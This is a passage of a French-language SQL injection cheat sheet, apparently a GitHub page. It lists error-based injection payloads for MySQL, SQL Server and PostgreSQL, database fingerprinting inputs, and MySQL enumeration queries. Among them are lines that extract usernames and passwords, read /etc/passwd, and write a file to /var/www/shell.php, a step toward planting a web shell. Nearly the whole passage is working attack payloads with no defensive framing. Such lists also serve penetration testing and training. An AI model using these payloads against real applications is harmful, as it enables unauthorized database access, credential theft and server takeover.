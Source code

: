 ### Error-based SQL Injection
```sql
-- MySQL
' AND (SELECT COUNT(*) FROM (SELECT 1 UNION SELECT 2 UNION SELECT 3)x GROUP BY CONCAT(version(),FLOOR(RAND(0)*2)))--
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT version()),0x7e))--

-- SQL Server
' AND CONVERT(int,(SELECT @@version))--
' AND CAST((SELECT @@version) AS int)--

-- PostgreSQL
' AND CAST((SELECT version()) AS int)--
```

## 🗃️ Énumération de Base de Données

### Identification du SGBD
```sql
-- Tests de fonctions spécifiques
SELECT version()        -- MySQL, PostgreSQL
SELECT @@version        -- SQL Server
SELECT sqlite_version() -- SQLite

-- Tests d'erreurs caractéristiques
'                       -- Syntaxe générale
' AND 1=CONVERT(int,@@version)--  -- SQL Server
' AND 1=version()--              -- PostgreSQL/MySQL
```

### MySQL
```sql
-- Informations système
SELECT version()
SELECT user()
SELECT database()
SELECT @@hostname

-- Énumération des bases
SELECT schema_name FROM information_schema.schemata

-- Énumération des tables
SELECT table_name FROM information_schema.tables WHERE table_schema='database_name'

-- Énumération des colonnes
SELECT column_name FROM information_schema.columns WHERE table_name='users'

-- Extraction de données
SELECT username,password FROM users
SELECT load_file('/etc/passwd')
SELECT 'content' INTO OUTFILE '/var/www/shell.php'
```
